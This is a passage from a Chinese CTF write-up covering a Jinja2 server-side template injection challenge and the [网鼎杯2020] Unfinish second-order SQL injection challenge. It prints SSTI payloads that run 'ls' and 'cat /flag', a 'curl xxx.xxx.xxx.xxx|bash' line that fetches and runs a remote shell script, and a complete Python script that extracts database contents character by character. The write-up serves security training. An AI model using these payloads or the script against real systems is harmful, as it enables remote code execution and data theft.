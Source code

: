 导致 SSTI 模板无法解析直接 500 响应, 当时也做过类似的题目, 不使用 单引号 就没问题了

```
node.mrctf.funaaaaaaaaaaaaaaaaa{{lipsum.__globals__["os"].popen("ls").read()}}
```

然后可以看到目录

![20210412010615259](https://github.com/Ricky-369369/Rickyweb/blob/main/Nepnep/Probation/img/20210412010615259.png?raw=true)

一般 flag 藏在根目录, 提供两种方法

- 直接 cat 根目录的 flag

```
node.mrctf.funaaaaaaaaaaaaaaaaa{{lipsum.__globals__["os"].popen("cat /flag").read()}}
```

- 反弹shell到公网查看 flag

```
node.mrctf.funaaaaaaaaaaaaaaaaa{{lipsum.__globals__["os"].popen("curl xxx.xxx.xxx.xxx|bash").read()}}
```

在 80 端口放上 bash 命令执行的 shell 进行反弹, 测试后发现直接写 bash -i 不太行

## [网鼎杯2020] Unfinish

考了一个二次注入, 从注册账号到登录时查询的一个过程, 脚本如下

```python
import re
import requests
import string
import random
import time

f_url = "http://051ba551-80bb-4c39-87ad-9bb58ea92278.node3.buuoj.cn/register.php"
s_url = "http://051ba551-80bb-4c39-87ad-9bb58ea92278.node3.buuoj.cn/login.php"
result = ""

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

for i in range(100):
    em = get_random_id() + '@123.com'
    # payload = "0' + ascii(substr(database() from {} for 1)) + '0".format(i)  # web
    payload = "0' + ascii(substr((select * from flag) from {} for 1)) + '0".format(i)
    f_data = {'email': em, 'username': payload, 'password': '1'}
    f_res = requests.post(url=f_url, data=f_data)
    if f_res.status_code == 200:
        s_data = {'email': em, 'password': '1'}
        s_res = requests.post(url=s_url, data=s_data)
        if s_res.status_code == 200:
            # print(s_res.text)
            key = re.search(r'<span class="user-name">\s*(\d*)\s*</span>', s_res.text)
            result += chr(int(key.group(1)))
            print(result)
            time.sleep(0.1)  # BUU限制, 访问太快有些页面会429导致flag不全

print('[*]Result: ' + result)
```
